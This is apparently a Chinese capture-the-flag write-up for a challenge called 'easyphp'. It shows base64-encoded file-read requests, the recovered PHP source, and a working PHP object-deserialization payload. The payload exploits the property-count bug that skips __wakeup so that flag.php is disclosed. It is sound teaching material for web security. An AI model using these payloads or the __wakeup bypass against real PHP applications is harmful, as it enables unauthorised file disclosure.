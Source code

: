 # 网络内生安全试验场——CTF答题夺旗赛（第二季）

# easyphp

## Analyze

查看网页源码

	<html>
		<head>
		</head>
		<body>
			<img src="show.php?img=aGludC5qcGc=" width="100%">
		</body>
	</html>

访问页面时发现有一张图片，查看图片地址

	http://120.55.43.255:13005/show.php?img=aGludC5qcGc=

`aGludC5qcGc=`base64解码得到`hint.jpg`，由此可以得知`show.php`是将参数`img`经base64解码得到的值进行读文件操作。

尝试使用

	php://filter/read=convert.base64-encode/resource=index.php

base64解码值读取源码

	http://120.55.43.255:13005/show.php?img=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWluZGV4LnBocA==

返回"File not found!"。。。

## Get Source

纠结了一下下，不知道是怎么回事，然后又尝试直接将`index.php`base64编码，可看到注释掉的php源码，居然成功了，看来是想复杂了。

上源码：

index.php

	<?php 
	  require_once('hint.php');
	  $x = new hint();
	  isset($_GET['class']) && $g = $_GET['class'];
	  if (!empty($g)) {
	    $x = unserialize($g);
	    echo $x;
	  }
	?>

发现hint.php

	<?php
	  error_reporting(0);
	  //flag is in flag.php
	  class hint
	  { 
	    public $file='';
	    function __destruct()
	    { 
	      if(!empty($this->file)) 
	      {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }
	    }  
	    function __wakeup(){ 
	      $this-> file='index.php'; 
	    } 
	    public function __toString(){
	      return '' ;
	    }
	  } 
	?>

源码中的注释部分提示flag在flag.php中

想尝试用show.php直接读取flag.php，分析show.php：

	<?php
	  $f = $_GET['img'];
	  if (!empty($f)) {
	    $f = base64_decode($f);
	    if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
	    && stripos($f,'flag')===FALSE) {
	      readfile($f);
	    } else {
	      echo "File not found!";
	    }
	  }
	?>

发现`flag`被过滤了，而且`/`也被绕过了，这也是为什么之前使用`php://filter`出错的原因。

尝试绕过，不过过滤比较严格，绕过有点难度，转而分析其他两个文件。

## Unserialize

涉及到**反序列化**：`$x = unserialize($g);`,发现在hint.php中

	function __destruct()
    { 
      if(!empty($this->file)) 
      {
       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
          show_source(dirname (__FILE__).'/'.$this ->file);
       else      die('Wrong filename.');
      }
    } 

存在文件读取，可以构造**Payload**使得`$this-> file = "flag.php"`，由

	<?php
	  error_reporting(0);
		//flag is in flag.php
		class hint{ 
	    public $file='';
	    function __destruct(){ 
	      if(!empty($this->file)) {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }}  
	    function __wakeup(){ $this-> file='index.php'; } 
	    public function __toString(){return '' ;}
	  } 
	  $a = new hint();
	  $a->file = "flag.php";
	  echo serialize($a);

得到字符串 `O:4:"hint":1:{s:4:"file";s:8:"flag.php";}`，但是这样并不能读取到flag.php文件，因为在序列化时，`__wakeup()`函数又会将`"index.php"`赋值给`$this-> file`.

这里涉及的另一个知识，是php本身的一个bug，详细信息可以查询[`php bug 72663`](https://www.baidu.com/s?wd=php%20bug%2072663)，这个 bug 的原理是：当反序列化字符串中，表示**属性个数的值大于真实属性个数**时，会跳过`__wakeup` 函数的执行。

于是Payload如下：

	http://120.55.43.255:13005/index.php?class=O:4:"hint":2:{s:4:"file";s:8:"flag.php";}

![](./index_files/ichunqiuCTF_easyphp.jpg)
